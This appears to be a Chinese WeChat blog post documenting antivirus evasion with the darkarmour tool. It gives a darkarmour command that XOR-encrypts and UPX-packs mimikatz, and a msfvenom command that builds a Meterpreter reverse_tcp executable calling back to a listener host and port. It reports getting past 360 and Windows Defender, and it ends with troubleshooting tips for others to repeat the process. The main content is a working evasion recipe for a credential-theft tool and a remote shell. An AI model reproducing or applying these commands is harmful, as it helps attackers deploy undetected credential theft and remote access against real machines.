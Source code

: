 #  我的免杀之路：利用darkarmour实现mimikatz和MSF的免杀

Snaker  [ Snaker独行者 ](javascript:void\(0\);)

**Snaker独行者** ![]()

微信号 gh_e5407d383892

功能介绍 记录本人网络安全知识/经验/笔记，致敬未来的我。

____

__

收录于话题 #免杀对抗 5个内容

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194459.png)

  

  

  

**0x1  mimikatz免杀**

 **  
**

  * 

    
    
    python3 darkarmour.py -f /root/mimikatz.exe -e xor -j -k sanker -l 20 -u -o /root/bypass_mimikatz.exe

  

k参数：用于加密的密钥key，如果不设置则默认随机生成  
j参数：使用基于jmp的PE加载器  
l参数：加密级别  
u参数：用upx打包可执行文件

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194504.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194505.png)

  

这里加密字节的过程比较久，尝试运行bypass_mimikatz.exe

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194507.png)

  

运行成功，看看免杀效果如何  

  

Bypass 360 success!

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194508.png)

  

Bypass Windows Defender success!

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194509.png)

  

V站评分10/66

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194511.png)

  

  

  

  

 **0x2  MSF免杀**

 **  
**

先生成可执行文件

  * 

    
    
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.128 LPORT=4488 -f exe -o msf.exe

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194512.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194513.png)

  

此次的加密等级设置为10，看运行如何

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194514.png)

  

上线成功，看看免杀效果如何

  

Bypass 360 success!

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194516.png)

  

Bypass Windows Defender success!

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194517.png)

  

V站评分22/66（分数不太可观，可能和我设置的加密等级有关）

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194518.png)

  

  

* * *

  

吐槽一下，加密后的mimikatz.exe居然10.6MB，我真服了。源文件才1.29MB，我猜测这应该是我设置的加密等级太高，图中可以看到我加密等级为500，项目给出的示例也仅仅是5而已。同时，我猜测加密等级会影响免杀效果，由于加密花费时间较长，我这里就没有一一进行测试，师傅们可以自行尝试。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194519.png)

  

  

  

* * *

  

  

 **记录一些使用过程中遇到的问题：**  

  

 **排坑1：报错“sh: 1: x86_64-w64-mingw32-gcc: not foundded.exe...”**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194520.png)

 **解决方法：**  

  * 

    
    
     apt-get install mingw-w64

 **项目所需要的依赖环境：**  

  * 

    
    
     apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode

注意：本人试过用Windows
10和Ubuntu系统去使用darkarmour工具，都混淆shellcode失败，原因未知。如果同样有小伙伴在使用这款工具时遇到这样的问题，不妨换成Kali系统。

  

  

 **排坑2：使用msfvenom生成MSF马时，必须用以下命令**

  * 

    
    
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.160.128 LPORT=4488 -f exe -o msf.exe

注意：payload一定得是windows/x64/meterpreter/reverse_tcp  
（别问为什么，我也不清楚，我一开始上线不成功，最后排查到居然是payload的问题，想不明白为什么，这里浪费好些时间![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194521.png)）

  

  

 **源项目地址：**

  * 

    
    
     https://github.com/bats3c/darkarmour

感谢所有前辈的开源精神以及知识分享![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210916194522.png)

  

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

我的免杀之路：利用darkarmour实现mimikatz和MSF的免杀

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

